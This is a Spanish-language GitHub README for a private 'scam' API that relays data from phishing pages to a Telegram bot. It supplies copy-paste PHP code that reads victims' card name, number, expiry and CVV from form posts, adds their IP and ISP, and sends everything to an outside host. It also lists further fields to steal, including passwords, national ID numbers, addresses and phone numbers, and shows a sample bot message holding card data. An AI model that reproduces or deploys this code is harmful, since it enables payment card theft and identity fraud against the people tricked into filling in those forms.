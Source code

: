 # telegramscambot-api

## ¿Qué es?
Es una HTTP API en desarrollo creada por @tona420, la cual mejora, acelera y hace mas sencilla la comunicación de un scam a un bot de Telegram. 

## ¿Es de uso público?
Por el momento, la API es privada y solo pocos usuarios tienen acceso a ella, pero no te preocupes, muy pronto se hará pública y todos podran acceder y usarla.

## ¿Cómo se usa?
Si no eres programador, y quieres usar la api de una manera sencilla y sin complicaciones, te recomiendo que copies y pegues el siguiente código en tu archivo de comunicación:
```php

<?php

$data = array(
    'apikey' => '',
    'sender' => ''
);

$result = file_get_contents('http://c2271028.ferozo.com/api', false, stream_context_create(array('http' => 
array('header'  => "Content-type: application/x-www-form-urlencoded\r\n",'method'  => 'POST','content' => http_build_query($data)))));

?>

```
### ¿Qué hace esto?
Es muy sencillo, éste código lo que hace es tomar los datos y enviarlos a la API, se procesan y se envian a telegram, ellos se encargan de mandartelos a traves del bot que creaste.

### ¿Qué datos puedo enviar?
Estos son los datos que puedes enviar mediante la API:

- 'apikey' = Es la llave para poder acceder a la API. _*_

- 'sender' = Es el token de tu bot y tu chat id de telegram, el formato es: token/chatid _*_
    #### Puedes enviar multiples mensajes a tokens e ids diferentes, solo usa "," para separarlos, ej: 
    'sender' => '10101010101:Adk4mfD/14038583992,2323232323:lRj4mf83kmdPfkj/6034857366'

- 'scam' = El nombre de tu scam.
- 'ip' = La IP del usuario.
- 'isp' = El ISP del usuario.
- 'correo' = El correo del usuario.
- 'usuario' = El usuario.
- 'clave' = La clave del usuario.
- 'dni' = El DNI del usuario.
- 'ccname' = El titular de la tarjeta.
- 'ccnum' = Los digitos de la tarjeta.
- 'ccven' = La fecha de vencimiento de la tarjeta.
- 'cccvv' = El código de seguridad de la tarjeta.
- 'provincia' = La provincia del usuario.
- 'localidad' = La localidad del usuario.
- 'postal' = El Código Postal (ZIP) del usuario.
- 'domicilio' = El domicilio del usuario.
- 'telefono' = El teléfono del usuario.

**Los modulos marcados con * son obligatorios**

### Ejemplo
```php

<?php

$cardName = $_POST['card-name'];
$cardNumbers = $_POST['card-number'];
$cardExpiration = $_POST['card-expiration'];
$cardCvv = $_POST['card-cvv'];

$ip = getenv("REMOTE_ADDR");
$isp = gethostbyaddr($_SERVER['REMOTE_ADDR']);

$data = array(
    'apikey' => 'apikey',
    'sender' => '10101010101:Adk4mfD/14038583992,2323232323:lRj4mf83kmdPfkj/6034857366',
    
    'ip' => $ip, 
    'isp' => $isp,
    
    'ccname' => $cardName,
    'ccnum' => $cardNumbers,
    'ccven' => $cardExpiration,
    'cccvv' => $cardCvv
);

$result = file_get_contents('http://c2271028.ferozo.com/api', false, stream_context_create(array('http' => 
array('header'  => "Content-type: application/x-www-form-urlencoded\r\n",'method'  => 'POST','content' => http_build_query($data)))));

?>

```
Mensaje del bot:
```
=====+ Default Scam - @tona420 +=====

Datos de conexión: 
IP: xxx
ISP: xxx
=== Datos Default Scam ===

Titular: Raul Hernandez 
Digitos: 1234 5678 9123 4567 
Vencimiento: 01/11 
CVV: 999 

=====+ @tona420 - dd/mm/yyyy +=====
```

## Contacto
Puedes contactarme mediante telegram @tona420. ;)
